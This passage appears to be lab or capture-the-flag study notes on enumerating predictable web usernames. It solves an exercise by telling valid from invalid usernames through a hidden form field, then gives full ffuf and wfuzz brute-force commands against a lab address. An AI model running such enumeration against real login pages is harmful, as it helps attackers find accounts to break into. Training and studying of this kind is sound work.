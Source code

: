 Of course, this attack is quite loud and should be carried out with great care.

### Predictable Usernames

In web applications with fewer UX requirements like, for example, home banking or when there is the need to create many users in a batch, we may see usernames created sequentially.

While uncommon, you may run into accounts like `user1000`, `user1001`. It is also possible that "administrative" users have a predictable naming convention, like `support.it`, `support.fr`, or similar. An attacker could infer the algorithm used to create users (incremental four digits, country code, etc.) and guess existing user accounts starting from some known ones.

### Exercise
Question: Find the valid username for the web application based at subdirectory /question2/.

Solution: here we must infer what is the username. In general could be several solutions, as the one explained in the `Username Existence Inference` section. In this exercise we cannot infer the right username in that way, but we can do it by analyzing the page source of each HTTP response. We note that our HTTP request has four parameters: `Username`, `wronguser`, `count` and `Password`. `wronguser` stores the previous wrong username we typed in our previous HTTP request but it is not important for our purpose. By submitting the usernames of our wordlist, we can note that the page source with the wrong usernames has this part of code:
```html
<SNIP>
<input type="hidden" name="wronguser" value="admin"><input type="hidden" name="count" value="1">
<SNIP>
```
while, the page source with the right username has this part of code:
```html
<SNIP>
<input type="hidden" name="validuser" value="ansible"><input type="hidden" name="count" value="1">
<SNIP>
```
In general, for automating this search, we should filter for `wronguser` or similar strings. We can use `ffuf` or `wfuzz` tools:

**ffuf**
```
ffuf -w /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt:FUZZ -u 'http://64.227.34.91:30068/question2/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://64.227.34.91:30068' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://64.227.34.91:30068/question2/' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -d 'Username=FUZZ&wronguser=&count=1&Password=testt' -fr "wronguser"
```

**wfuzz**
```
wfuzz -w /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -u 'http://64.227.34.91:30068/question2/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://64.227.34.91:30068' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://64.227.34.91:30068/question2/' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -d 'Username=FUZZ&wronguser=&count=1&Password=testt' --hs "wronguser"
```
